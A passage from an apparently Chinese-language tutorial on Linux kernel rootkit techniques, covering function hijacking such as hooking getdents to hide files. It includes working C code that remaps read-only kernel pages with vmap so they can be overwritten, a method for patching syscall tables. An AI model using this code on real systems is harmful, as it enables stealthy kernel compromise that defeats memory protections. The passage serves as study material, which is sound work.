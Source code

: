0x02. 函数劫持
==========

rootkit 通常需要修改内核部分函数逻辑来达成特定目的，例如劫持 `getdents` 系统调用来完成文件隐藏等；劫持函数的方法多种多样，本节笔者将给出一些比较经典的方案

PRE. 修改只读代码 / 数据段
-----------------

系统代码段、一些静态定义的函数表（包括系统调用表在内）的**权限通常都被设为只读， 我们无法直接修改这些区域的内容** ，因此我们还需要一些手段来绕过只读保护，这里笔者给出常见的几种方法

#### 方法 ①：利用 vmap/ioremap 进行重映射完成物理内存直接改写（推荐）

对虚拟地址空间的访问实际上是对指定物理页面的访问，我们可以通过**将目标物理页框映射到新的可写虚拟内存**的方式完成对只读内存区域数据的覆写

我们可以直接通过 `virt_to_phys()` 、`virt_to_pfn()` 等宏获取到目标区域虚拟地址对应的物理地址后再通过 `vmap()` 等函数将目标物理页框重新映射到一个新的虚拟地址上即可完成对只读内存数据的改写

数据覆写完成后再 `vunmap()` 即可，示例代码如下：

```
static __maybe_unused
void nornir_overwrite_romem_by_vmap(void *dst, void *src, size_t len)
{
    size_t dst_virt, dst_off, dst_remap;
    struct page **pages;
    unsigned int page_nr, i;
 
    page_nr = (len >> PAGE_SHIFT) + 2;
    pages = kcalloc(page_nr, sizeof(struct page*), GFP_KERNEL);
    if (!pages) {
        logger_error(
            "Unable to allocate page array for vmap, operation aborted.\n"
        );
        return ;
    }
 
    dst_virt = (size_t) dst & PAGE_MASK;
    dst_off = (size_t) dst & (PAGE_SIZE - 1);
    for (i = 0; i < page_nr; i++) {
        pages[i] = virt_to_page(dst_virt);
        dst_virt += PAGE_SIZE;
    }
 
    dst_remap = (size_t) vmap(pages, page_nr, VM_MAP, PAGE_KERNEL);
    if (dst_remap == 0) {
        logger_error("Unable to map pages with vmap, operation aborted.\n");
        goto free_pages;
    }
 
    memcpy((void*) (dst_remap + dst_off), src, len);
 
    vunmap((void*) dst_remap);
 
free_pages:
    kfree(pages);
}
```
